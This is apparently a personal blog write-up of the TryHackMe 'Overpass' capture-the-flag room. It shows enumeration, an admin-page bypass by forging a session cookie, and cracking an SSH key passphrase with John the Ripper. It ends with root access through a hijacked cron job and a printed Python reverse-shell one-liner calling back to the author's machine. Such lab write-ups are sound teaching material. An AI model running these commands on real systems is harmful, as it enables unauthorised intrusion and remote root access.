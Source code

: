 ```yaml
---
title: "Overpass TryHackMe"
date: "08-05-2021"
author: "Reda BELHAJ"
summary: "What happens when some broke CompSci students make a password manager? room from TryHackme Created by NinjaJc01."
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Overpass/bg.png"
---
```

Let’s take a look at the [Overpass CTF](https://tryhackme.com/room/overpass) on TryHackMe.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.184.21 -sC -sS -Pn
```
The “Nmap Output” displayed `2` services running under port 80 and 22 you guessed it's HTTP and SSH.
![Nmap](/images/Overpass/nmap.jpg)
Connecting to the HTTP port in a browser shows a web page that showcase the password manager tool

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:

```
gobuster dir -u http://10.10.184.21/  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,xml,php
```
![Gobuster](/images/Overpass/gobuster.jpg)

## Exploring 
So I found there was a hidden admin page at `/admin`. I tried some default password like `admin@admin` etc then I decided to take a look at the source code to observe how the login works
![Login](/images/Overpass/loginjs.jpg)

## Exploiting
The function login() in the `login.js` script get 3 the username, the password and the loginStatus then assemble the credentials into a JS Object called `creds` and sends them to `/api/login` for validation then it checks if the credentials are valid, If the credentials are incorrect, it displays "Incorrect Credentials," but if they are correct, It saves a SessionToken cookie and redirects the user to /admin. So I decided to add a cookie with a random value using the web developer bar:
![Cookie](/images/Overpass/cookie.jpg)

## User Flag
When I refresh the page we get a note to James and a SSH key, So I copy it and stores it in a file called `id_rsa`
> Don't forget to change the permission of the file:

```
chmod 600 id_rsa
```

![PassPhrase](/images/Overpass/passphrase.jpg)

When I tried to login I got a passphrase to enter, So let's crack it using **John the Ripper**:

```
python ssh2john.py /home/kali/id_rsa > /home/kali/hash
```

```
john /home/kali/hash
```

![John](/images/Overpass/jhon.jpg)

After brute-forcing the ssh private key passphrase. Now we can log in via SSH:
![In](/images/Overpass/in.jpg)

And we found the user Flag:

```
thm**********************************
```

## Root Flag
In the same directory we found a todo file:
![ToDo](/images/Overpass/todo.jpg)

So in the last task they mentionned an automated script, and I though of cron and crontab:

The software utility cron also known as **cron** job is a time-based job scheduler in Unix-like computer operating systems. And here's a [link](https://opensource.com/article/17/11/how-use-cron-linux) that teaches you how to use cron in Linux.

Analyzing the crontab file reveals that root runs `buildscript.sh` every minute: 
![Cron](/images/Overpass/crontab.jpg)

So let's try to edit the ip address from `/etc/hosts` and try to create a local reverse shell :

First of all I created a file in my local machine it's called `downloads/src/buildscript.sh` that have:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.174.180",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then I started a local web server in the same port of Overpass 80 with Python:

```
sudo python3 -m http.server 80 
```

And I launched a netcat listener:

```
nc -nlvp 4444
```

Finally, we were able to connect to the Box as root and we found the root flag:

```
thm**********************************
```
